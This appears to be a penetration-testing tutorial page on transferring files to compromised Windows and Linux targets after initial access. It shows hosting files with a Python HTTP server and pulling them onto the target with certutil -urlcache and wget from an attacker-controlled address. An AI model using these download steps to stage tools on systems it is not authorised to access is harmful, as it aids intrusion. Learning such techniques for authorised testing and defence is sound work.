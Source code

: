 # 4 - Transferring Files to Windows & Linux Targets

## <mark style="color:red;">Setting Up A Web Server With Python</mark>

* After obtaining initial access to a target system, you will need to transfer files to the target system.
* In some cases, you will not have access to the target system via a Meterpreter session, and as a result, you will need to use the inbuilt OS specific utilities to facilitate the transfer of files from your system to the target system.
* This process utilizes a two-step approach, where you will need to host the files you want to transfer on a web server and download the files hosted on the web server to the target system.

### **Setting Up a Web Server With Python**

* Python comes with a built-in module known as <mark style="color:yellow;">SimpleHTTPServer</mark> (Python2) and <mark style="color:yellow;">http.server</mark> (Python3), that can be used to facilitate a simple HTTP server that gives you standard GET and HEAD request handlers.
* This module can be used to host files in any directory of your system. And can be implemented through a single command in your terminal.

### **Practical Demonstration**

{% code overflow="wrap" lineNumbers="true" %}
```bash
python -m SimpleHTTPServer <localPort> #Set up a python2 web server
python3 -m http.server <localPort> #Set up a python3 web server
```
{% endcode %}



## <mark style="color:red;">Transferring Files To Windows Targets</mark>

### **Practical Demonstration**

{% code overflow="wrap" lineNumbers="true" %}
```bash
cmd > certutil -urlcache -f http://<localIP>/<file> <newNameFile> #Download a file on Windows with certutil
```
{% endcode %}

## <mark style="color:red;">Transferring Files To Linux Targets</mark>

### **Practical Demonstration**

```bash
shell > wget http://<localIP>/<file> #Download a file on Linux using wget
```



